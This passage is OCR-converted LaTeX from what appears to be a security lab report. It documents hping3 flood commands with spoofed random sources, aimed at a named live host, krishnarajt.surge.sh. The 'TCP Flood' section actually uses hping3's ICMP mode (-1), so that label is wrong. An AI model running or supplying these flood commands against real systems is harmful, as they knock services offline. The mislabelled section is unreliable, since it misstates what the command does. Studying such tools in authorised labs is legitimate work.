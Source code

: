 \documentclass[11pt]{article}
\begin{document}
\subsection{Command 6 - UDP Flood}

\subsubsection*{Syntax}
\begin{verbatim}
$ sudo hping3 --flood --rand-source -2 target_ip
\end{verbatim}

\subsubsection*{Command}
\begin{verbatim}
$sudo hping3 --flood --rand-source -2 krishnarajt.surge.sh
\end{verbatim}

\subsubsection*{Purpose}
To flood the target machine with UDP packets.

\subsubsection*{Output}
\begin{figure}[H]
    \centering
    \texttt{[image: hping udp flood.jpg]}
    \caption{To flood the target machine with UDP packets}
    \label{fig:6}
\end{figure}

\subsection{Command 7 - TCP Flood}

\subsubsection*{Syntax}
\begin{verbatim}
$ sudo hping3 --flood --rand-source -1 target_ip
\end{verbatim}

\subsubsection*{Command}
\begin{verbatim}
$sudo hping3 --flood --rand-source -1 krishnarajt.surge.sh
\end{verbatim}
\end{document}

